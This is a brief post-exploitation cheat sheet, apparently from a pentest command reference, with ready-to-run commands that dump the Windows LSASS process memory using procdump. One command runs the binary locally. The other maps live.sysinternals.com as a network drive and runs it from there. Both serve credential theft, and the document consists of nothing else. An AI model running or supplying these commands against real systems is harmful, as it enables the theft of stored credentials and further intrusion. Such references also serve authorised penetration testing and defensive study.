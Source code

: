 # procdump

% procdump, lsass, credentials

## procdump - dump lsass - local
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

## procdump - dump lsass - remote
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
net use Z: https://live.sysinternals.com; Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

